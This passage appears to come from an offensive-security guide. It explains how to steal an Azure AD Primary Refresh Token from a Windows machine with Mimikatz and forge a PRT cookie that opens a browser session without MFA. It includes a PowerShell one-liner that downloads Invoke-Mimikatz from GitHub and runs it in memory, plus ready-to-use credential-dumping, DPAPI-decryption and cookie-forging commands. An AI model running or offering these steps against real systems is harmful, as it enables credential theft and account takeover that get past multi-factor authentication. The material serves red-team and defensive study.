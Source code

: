 ```bash
privilege::debug
sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

The **PRT field** contains the encrypted refresh token (typically base64 string), and KeyValue in the ProofOfPossessionKey is the DPAPI-encrypted session key (also base64).

Then, from the **`sekurlsa::cloudap`** output, copy the base64 blob from **`KeyValue`** inside the field `ProofOfPossessionKey` (this is the session key encrypted with DPAPI). This encrypted key cannot be used as-is – it must be decrypted using the system’s DPAPI credentials.

Because DPAPI encryption for system secrets requires the machine’s system context, elevate your token to SYSTEM and use Mimikatz’s DPAPI module to decrypt:

```bash
token::elevate
dpapi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect

# PowerShell version
Invoke-Mimikatz -Command '"token::elevate" "dpapi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect"'
```

The `token::elevate` will impersonate SYSTEM and the `dpapi::cloudapkd` command with `/unprotect` will use the DPAPI master key to decrypt the provided KeyValue blob. This yields the clear-text session key and also the associated Derived Key and Context used for signing:
- **Clear key** – the 32-byte session key in plaintext (represented as a hex string).
- **Derived Key** – a 32-byte key derived from the session key and a context value (more on this below).
- **Context** – a 24-byte random context that was used when deriving the signing key for the PRT cookie.

> [!NOTE]
> If this doesn't work for you to impersonate the user, check the following section using **`AADInternals`**.

Then, you can also use mimikatz to generate a valid PRT cookie:

```bash
# Context is obtained from papi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect
# Derivedkey is obtained from papi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect
# PRT is obtained from sekurlsa::cloudap (filed "Prt"
dpapi::cloudapkd /context:<ContextHex> /derivedkey:<DerivedKeyHex> /prt:<PRT>
```

Mimikatz will output a signed JWT (the `PRT cookie`) after the line “Signature with key”, which contains the PRT and is signed using the derived key. This JWT can be copied and then used in a web session. For example, an attacker can open a browser, go to `login.microsoftonline.com`, and set a cookie named `x-ms-RefreshTokenCredential` with the value being this JWT. When the browser refreshes or navigates, Azure AD will treat the session as authenticated (the PRT cookie is presented as if SSO occurred), and it will issue an authorization code or access token for the specified resource. In practice, one would navigate to a resource like Office 365 or Azure portal; the presence of a valid PRT cookie means Azure AD will grant access without additional login (bypassing MFA, since the PRT is already authenticated).
